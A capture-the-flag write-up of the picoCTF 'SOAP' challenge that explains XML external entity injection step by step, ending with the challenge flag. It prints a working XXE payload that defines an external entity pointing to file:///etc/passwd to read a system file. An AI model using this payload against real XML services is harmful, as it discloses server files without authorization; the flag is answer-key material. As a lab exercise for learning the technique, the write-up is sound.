






# SOAP

## Objective
- To inject an external entity to read the /etc/passwd file

## Initial Observations
-`xmlDetailsCheckPayload.js` file
```
window.contentType = 'application/xml';

function payload(data) {
    var xml = '<?xml version="1.0" encoding="UTF-8"?>';
    xml += '<data>';

    for(var pair of data.entries()) {
        var key = pair[0];
        var value = pair[1];

        xml += '<' + key + '>' + value + '</' + key + '>';
    }

    xml += '</data>';
    return xml;
}
```
- Hint: XML external entity Injection

## Approach
- Having zero idea about XML external entity Injection, I decide to research first  
- On clicking details:
 
 The following request gets sent:
 
 The response:
 
- for all the 3 different details buttons, only the value of `<ID>` changes.
- 1 for the first button, 2 for the second, 3 for the third
- Inserted an external entity (its like a variable which can store information or fetch information from files)
 ```
<!DOCTYPE data [
    <!ENTITY xxe "2">
]>
```
- Appending this to define an entity which stores the value "2".

- Now if we change the value of `xxe` we will get different responses
- If we set it to 1

- If we set it to 2

- If we set it to 3


#### we get the same response when sending an entity which contains appropriate value compared to just sending in the value

- Similarly, we can use the xxe entity to access the /etc/passwd file
```
<!DOCTYPE data [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```
- the `SYSTEM` here signifies that we are refering to an external resource (file or url)
- When we don't use `SYSTEM` we are referring to static values like "2" or "3"


## Flag
picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}